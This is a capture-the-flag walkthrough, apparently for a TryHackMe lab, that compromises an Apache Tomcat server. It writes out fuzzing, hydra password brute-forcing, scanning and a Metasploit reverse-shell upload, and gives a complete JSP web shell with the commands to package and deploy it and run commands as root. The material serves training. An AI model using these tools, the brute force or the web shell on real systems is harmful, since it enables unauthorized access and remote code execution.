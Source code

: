 1. From the given tools to be used, start using the first one. i.e. dirbuster. But I used ffuf instead, due to its its simplicity and efficiency [ffuf -u http://<IP_ADDRESS>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40 -e .php,.txt,.bak,.html]. This gives the very first directory [guidelines].

2. Open this directory in the browser [http://<IP_ADDRESS>/guidelines]. This will give some content in which the name is given as [bob].

3. When we did the directory traversal, we found another directory [/protected]. This is the answer for this.

4. When we visit this directory, it asks for authentication. The username is obviously [bob]. Now we have to find the password. So lets use hydra now: [hydra -l bob -P /usr/share/wordlists/rockyou.txt -t 1 -f <IP_ADDRESS> http-get /protected/]. This will give us the password [bubbles].

5. When we open this directory with the correct credentials, the web page shows that the file has been moved to another port. So now lets scan the ipaddress with nmap: [nmap -sV -p 1234 <IP_ADDRESS>]. This will give the currently open port [1234].

6. Visit the port: [http://<IP_ADDRESS>:1234/]. It will take to a new webpage where the information of the server can be found: [Apache Tomcat/7.0.88].

7. Now as istructed, lets run the command [nikto -h http://<IP_ADDRESS>:1234/manager/html -id bob:bubbles] for the specified directory with the known credentials. This will give some data in which the information of some files is also given. Count the total number of files: [5].

8. If we run a simple nmap command: [nmap <IP_ADDRESS>]. It will give some open ports. There will be a port [80] for http. Scan this port: [nmap -sV -p 80 <IP_ADDRESS>]. This will give the version of the server [Apache/2.4.18].

9. The version of the [Apache-Coyote] can be seen in the start of the result when we ran the nikto command: [1.1].


Now our task is to run the metasploit and exploit the service and get the shell of the server. We can also do this all manually rather than using metasploit. However, I'll guide both the ways.

# Method-1 (Using Metasploit)
-> open the metasploit console using the command [msfconsole].
-> run the command [search type:exploit tomcat] to search for the exploits of tomcat.
-> using the command [use exploit/multi/http/tomcat_mgr_upload], select the exploit [exploit/multi/http/tomcat_mgr_upload] since we are dealing with the uploading of a script to get the reverse shell.
-> use command [show options] to see the options that we need to fill up before running the exploit. now we have to run the following command to add the required options:
1. set target 0
2. set httppassword bubbles
3. set httpusername bob
4. set rhost <IP_ADDRESS>
5. set rport 1234
6. set lhost <YOUR_THM_VPN_IP>
7. set lport 4444

10. After all these, again run the options command and verify all the options are set properly. now use command [run] to run the exploit. After the successful execution, type [shell] to get the shell. Now run [whoami] to check the user. It will give us [root].

11. Now run the command [ls], which will many directories in which one directory with the name of [root] is also present. Navigate into that [cd root]. Again see what files are present in there [ls]. Here you will see the file [flag.txt]. Read the contents of this file [cat flag.txt] and we will get the flag [ff1fc4a81affcc7688cf89ae7dc6e0e1].

# Method-2
If you face any problem in running the exploit in metasploit, we can just upload the shell directly into the webpage. If we simply do some research that [how can we get reverse shell in Apache Tomcat/7.0.88?], we will come to know that the directory [/manager] can help us here. So just open this directory [http://<IP_ADDRESS>/manager]. This will ask for the credentials. Simply use the credentials that we got before [bob, bubbles]. This will open a server page for the manager. Here we can see an option for uploading [war] files. Create a war file using the following steps:
-> create a shell.jsp file with the following contents:
```bash
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        String s = null;
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
        while ((s = sI.readLine()) != null) {
            out.println(s);
        }
    }
%>
```
run the commands:
```bash
mkdir -p mywebapp/WEB-INF
cp shell.jsp mywebapp/
jar -cvf shell.war -C mywebapp/ .
```
10. Now you have a shell.war file. Deploy it on the webpage, which will give message [ok] in the message field. Now simply use the url to get the user of the server [http://<IP_ADDRESS>/shell/shell.jsp?cmd=whoami]. This will give you the answer [root].

11. Now run the url [http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls], which will many directories in which one directory with the name of [root] is also present. Navigate into that [http://<IP_ADDRESS>/shell/shell.jsp?cmd=cd root]. Again see what files are present in there [http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls]. Here you will see the file [flag.txt]. Read the contents of this file [http://<IP_ADDRESS>/shell/shell.jsp?cmd=cat flag.txt] and we will get the flag [ff1fc4a81affcc7688cf89ae7dc6e0e1].

